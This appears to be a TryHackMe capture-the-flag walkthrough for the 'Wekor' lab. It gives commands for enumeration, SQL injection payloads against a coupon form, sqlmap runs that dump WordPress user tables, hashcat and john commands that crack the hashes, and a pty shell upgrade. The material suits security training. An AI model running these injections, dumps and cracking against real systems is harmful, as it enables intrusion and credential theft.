 ## TryHackMe Walkthrough - Wekor
Added wekor.thm to /etc/hosts

URL=wekor.thm
### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server domains
```bash
DNSLISTS=/usr/share/amass/wordlists/subdomains-top1mil-5000.txt
wfuzz -c -w $DNSLISTS -t30 --hw 3 -H "Host:FUZZ.${URL}" "http://${URL}"
```
### How to enumerate web server path/folder/directory
```bash
WORDLISTS=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -e -u http://site.${URL} -xphp,txt -t30 -w ${WORDLISTS}
```
### How to enumerate with wpscan
```bash
wpscan.api=$(cat ~/Downloads/wpscan.api)
wpscan --url http://site.${URL}/wordpress/ -e ap,u --api-token ${wpscan.api}
```
### How to bruteforce sql with sqlmap
Test if vulnerable to sqli
```bash
' or 1 = 1 -- -
```
Pull 
```bash
' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -
```
```bash
curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' OR 1=1 -- -" \
  -d "apply_coupon=Apply Coupon" | grep -i code

curl -X POST http://${URL}/it-next/it_cart.php \
  -d "coupon_code=' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables -- -" \ -d "apply_coupon=Apply Coupon" | grep -i code
```
Capture payload with burpsuite
```bash
POST /it-next/it_cart.php HTTP/1.1

Host: wekor.thm

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 43

Origin: http://wekor.thm

Connection: keep-alive

Referer: http://wekor.thm/it-next/it_cart.php

Upgrade-Insecure-Requests: 1

Priority: u=0, i



coupon_code=12345&apply_coupon=Apply+Coupon
```
Use SQLMAP with payload
```bash
sqlmap -r coupon.req --level 5 --risk=3
```
Use SQLMAP to determine if the database can be pull
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --dump
```
Use SQLMAP to explore databases and tables
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema
```
Use SQLMAP to pull specific database and table
```bash
sqlmap -u http://${URL}/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump
```
### How to crack the hash with hashcat
This is after you pull the users from the wordpress database and extract the hash password into a text file
```bash
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
### How to persist
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Resource
https://erichogue.ca/2021/06/Wekor

https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/Wekor%20Writeup
```
